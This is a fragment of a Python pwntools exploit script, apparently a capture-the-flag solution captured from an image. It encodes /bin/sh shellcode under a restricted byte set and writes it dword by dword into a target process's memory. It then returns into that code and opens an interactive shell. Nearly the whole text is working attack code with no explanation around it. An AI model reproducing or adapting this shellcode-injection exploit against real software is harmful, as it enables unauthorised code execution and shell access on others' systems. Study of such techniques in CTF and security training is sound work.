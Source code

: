 ```python
    sc += change_esp(0x8058000 - off)
    sc += encode_addr(val)
    sc += asm("enter 0xc1c1, 0xc1")

    return sc

def pad(amt):
    sc = b""
    sc += asm("shl edx")*amt

    return sc

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
# pwndbg tele command
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
'''
b'\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9'
'''

sc = pad(0x20)
# memory location of our shellcode
sc += write_dword(0x8057dc8-0x4, 0x400)

bin_sh = asm(shellcraft.sh())
bin_sh = bin_sh.rjust(60, b'\x90')
bin_sh += p32(0x8057dc8)
cnt = 0
for i in reversed(range(0, len(bin_sh), 0x4)):
    sc += write_dword(u32(bin_sh[i:i+4]), 0x200 + 0x4 * cnt)
    cnt += 1

print(sc)
# ret to shellcode
sc += encode_addr(0x8058000-0x400-0x4)
sc += asm("leave")
sc += asm("ret")

sc = encode_sc(sc)

print("sc len: ", hex(len(sc)))

#int3 = 'ö'.encode()
#sc = sc + int3

io = start(argv, env=env)
io.sendlineafter("shellcode: ", sc)
io.interactive()
```


